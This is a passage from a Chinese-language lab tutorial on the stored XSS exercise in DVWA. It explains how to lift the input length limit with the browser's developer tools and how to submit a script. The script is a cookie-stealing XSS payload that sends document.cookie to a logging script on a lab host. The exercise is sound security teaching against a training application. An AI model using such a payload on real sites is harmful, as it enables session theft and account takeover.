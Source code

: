 安装成功之后会提示我们重启浏览器，重启便是，由此我们便做好了所有的准备工作。

然后我们再次进入 DVWA 为我们提供的 xss stored 环境中，上文我们提到过输入框对字数有所限制，但是对我们而言是不够的，我们需要修改一下，按 F12 打开调试工具，选择查看器，通过选择器选择我们的文本框，看到文本框相关的 HTML 代码，将 50 的限制修改到 200：

![config-html](../imgs/wm_281.png)

然后我们输入这样的信息：

```
<SCRIPT>document.location='http://192.168.122.101/cgi-bin/logit.pl?'+document.cookie</SCRIPT>
```

![insert-script](../imgs/wm_282.png)
